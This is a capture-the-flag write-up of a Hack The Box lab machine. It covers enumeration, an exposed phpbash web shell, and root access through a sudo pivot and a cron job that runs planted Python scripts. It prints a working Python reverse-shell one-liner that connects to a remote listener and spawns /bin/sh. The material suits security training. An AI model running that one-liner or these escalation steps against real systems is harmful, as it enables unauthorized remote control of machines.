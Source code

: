 # Hack The Box: Sense machine write-up

This was a machine regarded as easy by most users, but I must say I found the root part really challenging. Thankfully, I got it in the end.

The machine is running on port 10.10.10.68.

#### Enumeration

Firstly, I enumerate open ports to discover the services running in the machine. I ran the following:

```sh
$ nmap -sV -sC 10.10.10.68
```

Then I get that there's a website in port 80, so I head there.

*Webpage running*

![Img](images/webpage.png "Img")

There, I find an article about something called 'phpbash', which is like a web command-line. There's also a github repository:

```sh
https://github.com/Arrexel/phpbash
```

Hence, I think there must be some path in the machine where there's a shell. I use dirbuster and after a while I find this path: ``
http://10.10.10.68/dev/phpbash.php
``

After accessing it, I can easily read the user.txt located in ``/home/Arrexel/user.txt``.

#### Root

This is where things get complicated. As I don't like the web shell, I use a python one-liner I got from http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet to get a connection in my terminal (I listen with netcat and connect in port 1234). The code is:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Then, navigating again to the / directory, I find an interesting directory, called scripts (/scripts).

*/ directory*

![Img](images/root.png "Img")

However, I cannot either cd or see the contents of the file.

*/scripts directory*

![Img](images/scripts.png "Img")

Checking with ```sudo -l``` I find out that I can log in as the scriptmanager user without password, who is the creator of the /scripts directory.

*sudo -l output*

![Img](images/sudo-l.png "Img")

Thus, I check whether I can list the files of /scripts with ```sudo -u scriptmanager ls -al /scripts```.

*sudo -l output*

![Img](images/ls_as_scriptmanager.png "Img")

Success!!!

Next step is to get a shell as scriptmanager (so I can avoid repeating ```sudo -u scriptmanager```, which is a bit annoying). So I run in the webshell the python one-liner but I precede it with ```sudo -u scriptmanager```. And that's it, I'm scriptmanager.

After inspecting the files of ```/scripts``` directory, I find something odd: the test.py writes a string to test.txt, the later being owned by root. So, after listing the directories of ```/var/spool/cron/crontabs```, I discover there is a cron job running as root.

Maybe, if I create a python script in the ```/scripts``` directory, it gets run as root. So I create a file which contains a shell and listen with netcat. And, a few minutes later, a root shell spawns!

*Root shell and cron job*

![Img](images/End.png "Img")

Now I can read the cron job and indeed the system was executing all python scripts in that directory. Machine owned!

<small>_I must say the second part was more difficult than explained, I was stuck at it for over a week until I found out the scriptamanager part and thought about the cron job. However, it was a really rewarding experience._</small>

*Diego Bernal Adelantado*
